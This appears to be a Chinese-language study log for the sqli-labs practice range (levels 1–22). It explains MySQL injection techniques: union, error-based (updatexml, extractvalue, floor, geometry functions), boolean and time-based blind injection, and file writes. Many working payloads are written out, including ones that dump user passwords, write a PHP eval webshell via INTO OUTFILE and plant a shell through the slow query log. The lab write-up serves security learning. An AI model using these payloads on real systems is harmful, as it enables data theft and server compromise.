

sql-labs记录1
本文记录一下sqli-labs第1-22关注入学习的过程。
1. 基础知识
1.information_schema

information_schema 数据库跟 performance_schema 一样，都是 MySQL 自带的信息数据库。其中 performance_schema 用于性能分析，而 information_schema 用于存储数据库元数据(关于数据的数据)，例如数据库名、表名、列的数据类型、访问权限等。把mysql数据库看作一本书，则它相当于mysql数据库的目录。
我们经常在注入时结合information_schema来爆数据库、表、字段等等。介绍几个常用的
1 | information_schema.schemata 所有数据库名，show databases()的结果就是取自于此； |
栗子
1.查询所有数据库：
1 | url?id=-1 union select 1,group_concat(schema_name) from information_schema.schemata |
2.查询数据表：
1 | url?id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema="" |
3.查询字段：
1 | url?id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name="" |
4.查询数据：
1 | url?id=-1 union select 1,group_concat(username," ",password) from table_name |
2.基础函数
1.系统函数
1 | version()——MySQL 版本 |
user()可能为以下情况
1 | root@localhost:表本地 |
2.union
用于将不同表中相同列中查询的数据展示出来，不包括重复数据。但是UNION 内部的 SELECT 语句必须拥有相同数量的列，列也必须拥有相似的数据类型。同时每条 SELECT 语句中的 列的顺序必须相同。若要重复值也显示出来，则使用UNION ALL
3.字符串连接函数
1.concat(str1,str2,…)
没有分隔符地连接字符串.返回结果为连接参数产生的字符串。
1 | 如有任何一个参数为NULL ，则返回值为 NULL。如果所有参数均为非二进制字符串，则结果为非二进制字符串。 如果自变量中含有任一二进制字符串，则结果为一个二进制字符串。若要避免一个数字参数被转化为与之相等的二进制字符串格式,可使用显式类型 cast, 例如： `SELECT CONCAT(CAST(int_col AS CHAR), char_col)` |
另外虽然没有分隔符连接字符串，但还是试验时可以使用分隔符：concat(id,'|',pwd,'|',repwd)：|为分割符,可为任意分隔符。
2.concat_ws(‘separator’,str1,str2,…)
全称CONCAT With Separator,含有分隔符地连接字符串。
1 | 分隔符可以是一个字符串，也可以是其它参数。如果分隔符为 NULL，则结果为 NULL。函数会忽略任何分隔符参数后的 NULL 值，不会忽略任何空字符串。 |
3.group_concat()
返回要连接的字段的一个集合
group_concat([DISTINCT] 要连接的字段 [Order BY ASC/DESC 排序字段] [Separator '分隔符'])
当只有一个参数时，默认连接分隔符是”,“
4.用于盲注的函数
floor()
说明：向下取整。floor(1)=floor(1.2)=1
rand()
说明：在0和1之间产生一个随机数。rand(0)*2将取0到2的随机数，并不是执行两次随机数。rand不能和order by一起使用
if()
说明：if(expr1,expr2,expr3)含义是如果expr1是True,则返回expr2,否则返回expr3。多用于时间盲注。
length()
说明：返回字符串的长度
count()
说明：用来统计记录的数量。其在盲注中，主要用于判断符合条件的记录的数量，并逐个破解。
left(a,b)
说明：database()显示数据库名称，left(a,b)从左侧截取 a 的前 b 位
举例：left(database(),1)>’s’
Ascii()
说明：Ascii()将某个字符转换 为 ascii 值
substr(a,b,c)
说明：从 b 位置开始，截取字符串 a 的 c 长度。
举例：
1 | ascii(substr((select table_name information_schema.tables where tables_schema =database()limit 0,1),1,1))=101 --+ |
mid(a,b,c)
说明：从位置 b 开始，截取 a 字符串的 c 位
ord()
说明：Ord()函数同 ascii()，将字符转为 ascii 值
举例：
1 | ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23 |
sleep()
说明：sleep(n)将程序挂起n秒后执行。多用于时间盲注。
BENCHMARK()
说明：BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的 cpu 资源。推荐使用 sleep()
举例：
1 | UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE(‘M SG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1; |
3.常见注入
1.十种报错注入
sql语句错误时，web页面会报错，有的会输出后台数据库错误语句。
1.双查询注入报错-floor()报错
固定套路：
1 | select count(*),concat_ws(':',([子查询],floor(rand()*2))) as a form [table_name] group by a; |
原理：通过floor报错的方法来爆数据的本质是group by语句的报错。group by语句报错的原因是floor(random(0)*2)的不确定性，即可能为0也可能为1,group by floor(random(0)*2)出错的原因是key是个随机数，检测临时表中key是否存在时计算了一下floor(random(0)*2)可能为0，如果此时临时表只有key为1的行和不存在key为0的行，那么数据库要将该条记录插入临时表，由于是随机数，插时又要计算一下随机值，此时floor(random(0)*2)结果可能为1，就会导致插入时冲突而报错。即检测时和插入时两次计算了随机数的值。正确结果与报错信息一起输出。
关于key：group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中更新临时表中的数据；如果该key不存在于临时表中，则在临时表中插入key所在行的数据。
原理来自：https://www.cnblogs.com/BloodZero/p/4660971.html
2.updatexml和extractvalue
updatexml
UPDATEXML (XML_document, XPath_string, new_value);
1 | 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc |
用法，最大长度限制32位
1 | and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) |
解释
由于updatexml的第二个参数需要Xpath格式的字符串，以0x7e开头的内容不是xml格式的语法，concat()函数为字符串连接函数显然不符合规则，但是会将括号内的执行结果以错误的形式报出，这样就可以实现报错注入了。
extractvalue
updatexml是修改的。而evtractvalue是查询的。从目标XML中返回包含所查询值的字符串。
EXTRACTVALUE (XML_document, XPath_string);
1 | 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc |
用法：最大长度限制32位
1 | and extractvalue(1,concat(0x7e,(select @@version),0x7e)) |
解释
依旧如同updatexml一样，extract的第二个参数要求是xpath格式字符串，而我们输入的并不是。所以报错。
3.有关画图的七类
差不多都是和画图有关的，共同点是传入非正常参数导致报错和查询嵌套导致报错，所以我把它归为一类。
geometrycollection()
GEOMETRYCOLLECTION(POINT(10 10), POINT(30 30), LINESTRING(15 15, 20 20))
1 | POINT(x,y) 函数,这是坐标函数，相当于X,Y坐标图上的一点。 |
利用条件：5.5<version()<5.6
用法
1 | and geometrycollection((select * from(select * from(select user())a)b)); |
解释
由于MYSQL无法用这样字符串画出图形,所以报错了
multipoint()
MultiPoint是一种由Point元素构成的几何对象集合。这些点未以任何方式连接或排序。
用法
1 | and multipoint((select * from(select * from(select user())a)b)); |
MultiPoint（）函数中是需要数字的，没有就报错了。。。
polygon()
在地区地图上，Polygon对象可表示森林、区等。
用法
1 | and polygon((select * from(select * from(select user())a)b)); |
解释：
需要数字的，没有就报错了。。。
multipolygon()
multipolygon()是一种由Polygon元素构成的几何对象集合。
用法
1 | and multipolygon((select * from(select * from(select user())a)b)); |
解释：
multipolygon()需要的是Polygon元素。为了显错传入字符串,所以报错。
linestring()
LineString()是具有点之间线性内插特性的Curve.
用法
1 | and linestring((select * from(select * from(select user())a)b)); |
解释：
LineString(1 1,2 2) 这是它的用法。为了显错传入了,字符串….
multilinestring()
multilinestring()是一种由LineStirng元素构成的MultiCurve几何对象集合。
用法
1 | and multilinestring((select * from(select * from(select user())a)b)); |
解释：
MULTILINESTRING((10 10, 20 20), (15 15, 30 15))这样用的。为了显错又把字符串传进去了。
exp()
EXP(x)函数计算e的x次方，即ex。
用法
1 | and exp(~(select * from(select user())a)); |
解释
EXP()肯定是需要数字的,传入个字符串必然显错
2.盲注
blind sql是注入攻击的一种，向数据库发送true或false的问题，并根据应用返回的信息判断结果。这种攻击的出现是因为应用程序只显示常规错误，但并没有解决sql注入存在的代码问题。
进行常规sql注入时，web界面会返回后端数据库执行sql查询返回的错误信息，盲注与常规注入相似，但是不同的是数据库返回的数据的检索方式，若数据库没有输出数据到web页面，攻击者会询问一些列的true或false问题，强制从数据库获取数据。
在有些情况下，后台使用了错误信息屏蔽方式(比如@)屏蔽了报错，此时无法根据报错信息来进行判断注入。
从安全角度讲，后台数据库返回错误提示，这给构造闭合语句的人提供了便利，为了解决这一安全问题，除了在后台设置相应的语句判断机制外，不提供对应的错误返回提示，或无论在什么情况下都提供相同的错误返回提示确实是一种降低渗透风险的方法。而盲注就是在后台不提供返回提示的情况下构造payload的方法，其实它本身也还是一种注入方式。
1.布尔盲注
即基于真假的盲注。主要有以下几种表现情况
1.没有报错信息
2.不管正确的输入，还是错误的输入，都只显示两种情况(我们可以默认为0和1)
3.在正确的输入下，输入and1=1，and1=2发现可以判断返回结果信息
常使用以下语句猜解字符串：
1 | url?var=-1[' | " | ) | ') | ") ...] select length(database()) --+ |
一般来说二分法脚本如下：(来源于Y4tacker)
1 | import requests |
有时候屏幕回显很大一部分不好掌握，建议使用时间盲注。
也可用burp进行爆破，但是步骤太多，太麻烦了。。
2.时间盲注
由于注入点无法反馈信息，所以不能像其他注入方式那样直接简洁的获取信息，需要从侧面一步步拼凑出信息。
常使用以下语句猜解字符串：
1 | url?var=1[' | " | ) | ') | ") ...] and if(1=0,1, sleep(10)) --+ |
一般来说二分法脚本如下：
1 | import requests |
3.mysql注入读写文件
mysql数据库在渗透过程中能够使用的功能除了读取数据之外，还可以对文件进行读写。
1.前提
1.用户权限足够高，尽量具有root权限
2.secure_file_priv不为null(默认为null)
1 | 查看secure_file_priv的值 |
2.读取文件
读取文件load_file()
1 | url?id=-1[' | " | ) | ') | ") ] union select 1,load_file("path"),[3,4...] --+ |
3利用into outfile写入文件
1 | url?id=-1[' | " | ) | ') | ") ] union select 1,'<?php @eval($POST_[1])?>'[3,4...] into outfile'/path/文件名' --+ |
4.利用日志写shell
mysql日志主要包含:错误日志、查询日志、慢查询日志、事务日志，日志的详细情况参考mysql日志详细解析，本次利用查询日志
1.设置slow_query_log=1.即启用慢查询日志(默认禁用)。
1 | set global slow_query_log=1; |
2.伪造(修改)slow_query_log_file日志文件的绝对路径以及文件名
1 | set global slow_query_log_file='dir\filename'; |
3.向日志文件写入shell
1 | select '<?php phpinfo();?>' or sleep(11); |
4.利用:浏览器直接访问该网站下的伪造的该日志文件路径
1 | ip/[dir/]filename |
或者是把写入的内容改为一句话木马也可。
2.靶场通关记录
Less1：GET基于报错的字符型注入(单引号)
1.找到注入点：id
2.进行试错，猜测语句
则语句为：select login_name,passwd from table where id = 'number' limit 0,1
3.判断字段数：3
payload：?id=1'order by 4 --+
4.爆数据库
MySQL中的所有数据库：
payload：?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata --+
当前正在使用的数据库以及系统的所有信息
payload：?id=-1' union select 1,concat_ws('|',database(),version(),@@datadir,@@version_compile_os),user() --+
ps:concat_ws可替换为group_concat
5.爆表名
payload：?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="security" --+
或者没有爆出当前表名：?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
6.爆列名
payload：?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
7.爆出所有账户密码
payload：?id=-1' union select 1,group_concat(username,password),3 from users --+
Less2：GET基于报错数字型注入
1.找到注入点：id
2.试错，猜语句
则语句：select login_name,passwd from table where id = number limit 0,1
找到闭合了就和less1一样了剩下的
Less3：GET基于报错字符型注入(带括号的单引号)
1.寻找注入点：id
2.试错，猜语句
则语句为：select login_name,passwd from table where id=('1') limit 0,1
闭合找到后和less1剩下的操作一样了
Less4：GET基于报错字符型注入(双引号)
1.寻找注入点：id
2.试错，猜语句
则语句为：select login_name,passwd from table where id=(”1“) limit 0,1
剩下的操作参考less1
Less5：GET双查询字符型(单引号)
这一关如果正确则显示you are in …,失败则会报错。这一关可以当作盲注解决，但是如题目一样使用双查询
payload
1 | #当前使用数据库 |
也可布尔盲注，参考less5
Less6：GET双查询字符型(双引号)
和less5一样，只不过闭合是双引号。
Less7：盲注GET文件写入
1.注入点：id
2.猜语句，经过多次实验，只有输入'会报错
没有错误提示，盲注，经过多次实验，以下可行
则猜测语句注入点为：?id=(('1'))
3.猜字段
4.写shell
payload：?id=-1')) union select 1,'<?php @eval($POST_[1])?>'3 into outfile'C:\\test\\1.php' --+
Less8：GET布尔盲注
1.注入点：id
2.猜关键点语句
没有错误提示，是盲注，只有一次次自己实验闭合
则关键点闭合为：?id='1'
3.猜字段：3

4.跑数据，用二分法，用burp跑步骤太多了。
1 | import requests |
Less9：GET时间盲注(单引号)
1.注入点：id
2.试错，猜语句.猜鸭儿，试了很多语句都是一样的回显，看了眼后台果断懵逼，不会有第二种结果。。。
老规矩二分法
1 | import requests |
Less10：GET时间盲注(双引号)
试了很多遍，结果都一样，看了眼后台果然不会有第二种结果。。直接上脚本
1 | import requests |
Less11：POST报错注入字符型(单引号)
发现登录界面，随便试错猜语句
则语句：uname='1' and password='' LIMIT 0,1
直接在登陆界面执行以下payload可以查询到数据库，表，账户密码信息
1 | MySQL中的所有数据库： |
或者是直接进后台得到一个账号密码：1' or 1=1 #
Less12：POST报错注入字符型(带单括号的单引号)
按less11的步骤来，只不过是以")闭合的
Less13：POST字符型双查询(带括号的单引号)
利用方法参考less5。另外：
updatexml测试有回显：111') and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)#
extractvalue也有回显：111') and extractvalue(1,concat(0x7e,(select @@version),0x7e))#
Less14：POST字符型双查询(带括号的单引号)
双查询没搞出来，但是用updatexml和extractvalue有回显
盲注：
1 | import requests |
Less15：POST布尔/时间盲注(带单引号)
lesss14中的盲注双引号改为单引号即可
也可手动burp操作
例如猜数据库长度
成功后响应时间变长
1’ and updatexml(1,concat(0x7e,(select @@version()),0x7e),1)#
Less16：POST布尔/时间盲注(带双引号)
lesss14中的盲注脚本即可
Less17：update
这一关难搞，试了半天的username，打开后台一瞅，好家伙全是转义。。。
如其名，猜测就是更新数据的，所以试一试updatexml，成了。
payload：1' and updatexml(1,concat(0x7e,(select version()),0x7e),1)#
需要注意的是，既然是更新信息，那么所选择的username在数据库中要存在
Less18：http-useragent注入
这一关要先知道账号密码，可以使用brup进行爆破得到，然后进行UA注入
payload： 'and updatexml(1,concat(0x7e,@@version,0x7e),1) or '1'='1
这里不直接注释掉是因为后台是先进行插入，再显示出来的。
Less19：http-refer注入
和less18一样，在refer进行注入
Less20：cooike注入
找个账号登进去
抓包修改cooike：uname=admin' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)#
less21：cookie-base64（带括号的单引号）
瞅瞅，base64加密了，简单嘛，把上一关的payloadbase64一下就o了
先试试闭合
尝试各种闭合之后发现1') #不会报错
payload：uname=YWRtaW4xJylhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsKFNFTEVDVCBkYXRhYmFzZSgpKSwweDdlKSwxKSM=
建议加解密到此网站：https://tool.oschina.net/encrypt?type=3，踩了很多坑。。。
less22：cookie-base64（双引号）
经过实验和less21只是闭合不一样，换成双引号就好了